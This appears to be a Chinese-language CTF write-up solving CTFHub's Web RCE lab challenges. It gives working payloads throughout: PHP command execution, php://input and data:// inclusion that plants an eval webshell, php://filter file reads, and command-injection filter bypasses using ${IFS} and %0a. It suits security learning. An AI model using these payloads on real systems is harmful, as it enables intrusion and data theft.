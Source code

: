 ```yaml
---
layout: post
title: CTFHub Web RCE
subtitle: CTFHub Web RCE
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
---
```

## 1. RCE

### 1.1. eval 执行

![image](https://img.ghostliner.top/HxrYS3.png)

传入 cmd 参数

```php
system("ls -lR / | grep flag");
```

![image](https://img.ghostliner.top/qNEyyj.png)

```php
system("find / -name flag_14104");
```

![image](https://img.ghostliner.top/9C8iWe.png)

```php
system("cat /flag_14104");
```

`ctfhub{d3eaaa2187eddb495ba02f6e}`

### 1.2. 文件包含

![image](https://img.ghostliner.top/jmFpp4.png)

分析代码，GET 传 file 参数不能有“flag”字符，自带 shell.txt 文件

```uri
http://challenge-78e9fffaec2d5817.sandbox.ctfhub.com:10800/?file=shell.txt
```

蚁剑连接

![image](https://img.ghostliner.top/xZi4Lq.png)

### 1.3. php://input

![image](https://img.ghostliner.top/VxOlc8.png)

![image](https://img.ghostliner.top/AuRO1e.png)

成功

```php
a=<?php system("ls /");?>
a=<?php system("cat /flag_21991");?>
```

![image](https://img.ghostliner.top/21aV0j.png)

### 1.4. 远程包含

![image](https://img.ghostliner.top/ry5rgQ.png)

```url
http://challenge-057c54b0b096a464.sandbox.ctfhub.com:10800/?file=data://,<?php fputs(fopen('shell.php','w'),'123<?php eval($_POST["code"]);?>');
```

成功

![image](https://img.ghostliner.top/EOIWV4.png)

### 1.5. 读取源代码

![image](https://img.ghostliner.top/XEYP2h.png)

分析：file 参数以 `php://` 开头，存在 `/flag` 文件

```url
http://challenge-a8afd380d641eed1.sandbox.ctfhub.com:10800/?file=php://filter/resource=/flag
```

![image](https://img.ghostliner.top/AjZYM4.png)

### 1.6. 命令注入

```shell
127.0.0.1|ls
```

![image](https://img.ghostliner.top/cKK2E9.png)

```shell
127.0.0.1|cat 262363244510708.php
```

![image](https://img.ghostliner.top/P6tAJ6.png)

### 1.7. 过滤 cat

**可以使用 tac、head、tail**

`127.0.0.1|ls`

![image](https://img.ghostliner.top/T8tX0v.png)

`127.0.0.1|head flag_42519488108.php`

![image](https://img.ghostliner.top/uMbovh.png)

### 1.8. 过滤空格

**可以使用 <、${IFS}**

`127.0.0.1|ls`

![image](https://img.ghostliner.top/rp3hlM.png)

```url
http://challenge-66d5d23f43cc02ba.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cat<flag_35921562431926.php
```

![image](https://img.ghostliner.top/P1aFEZ.png)

### 1.9. 过滤目录分隔符

**多重命令执行，cd 到指定目录再 cat 内容**
![image](https://img.ghostliner.top/VT5WHH.png)

`127.0.0.1|cat flag_is_here` 无内容，`ls -l` 分析是目录

![image](https://img.ghostliner.top/Yic2Pf.png)

查看目录

![image](https://img.ghostliner.top/t1lY7K.png)

```url
http://challenge-ccfac5e714299f03.sandbox.ctfhub.com:10800/?ip=127.0.0.1;cd flag_is_here;cat flag_27471845213010.php
```

![image](https://img.ghostliner.top/17za4S.png)

### 1.10. 过滤运算符

![image](https://img.ghostliner.top/FXaBnm.png)

只过滤了 `|`、`&` ，未过滤 `;`

`127.0.0.1|ls`

![image](https://img.ghostliner.top/Jb0m05.png)

`127.0.0.1;cat flag_69852691721920.php`

![image](https://img.ghostliner.top/6ygJ0I.png)

### 1.11. 综合过滤练习

![image](https://img.ghostliner.top/sDdCQa.png)

过滤了 `|`、`&`、`;`、` `、`/`、`cat`、`flag`、`ctfhub`

```php
127.0.0.1%0als
```

![image](https://img.ghostliner.top/stGyCh.png)

```php
127.0.0.1%0als${IFS}-R # ${IFS}代替空格ls -R
```

![image](https://img.ghostliner.top/uUGqij.png)

```php
127.0.0.1%0amv${IFS}fla*${IFS}fff%0als${IFS}-R #将文件夹flag改名为fff
```

![image](https://img.ghostliner.top/ORtTf5.png)

![image](https://img.ghostliner.top/OtLqGW.png)

flag 文件无权限改名

```php
127.0.0.1%0acd${IFS}fff%0agrep${IFS}"ctf"${IFS}*.php #使用grep搜索*.php文件避开关键字
```

![image](https://img.ghostliner.top/QyhraO.png)
